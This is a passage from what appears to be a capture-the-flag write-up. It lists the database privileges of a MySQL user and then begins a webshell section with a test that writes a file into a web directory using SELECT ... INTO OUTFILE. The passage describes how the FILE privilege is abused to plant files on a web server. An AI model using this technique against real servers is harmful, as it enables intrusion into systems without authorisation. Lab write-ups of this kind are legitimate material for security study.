 
    > select privilege_type FROM information_schema.user_privileges where grantee = "'uhc'@'localhost'"
    SELECT
    INSERT
    UPDATE
    DELETE
    CREATE
    DROP
    RELOAD
    SHUTDOWN
    PROCESS
    FILE
    REFERENCES
    INDEX
    ALTER
    SHOW DATABASES
    SUPER
    CREATE TEMPORARY TABLES
    LOCK TABLES
    EXECUTE
    REPLICATION SLAVE
    BINLOG MONITOR
    CREATE VIEW
    SHOW VIEW
    CREATE ROUTINE
    ALTER ROUTINE
    CREATE USER
    EVENT
    TRIGGER
    CREATE TABLESPACE
    DELETE HISTORY
    SET USER
    FEDERATED ADMIN
    CONNECTION ADMIN
    READ_ONLY ADMIN
    REPLICATION SLAVE ADMIN
    REPLICATION MASTER ADMIN
    BINLOG ADMIN
    BINLOG REPLAY
    SLAVE MONITOR



It's a lot, but `FILE` jumps out as interesting.

### Webshell

#### File Write

Another thing to try is writing a file. I'll run:



    > select "0xdf was here!" into outfile '/var/www.md/0xdf.txt'
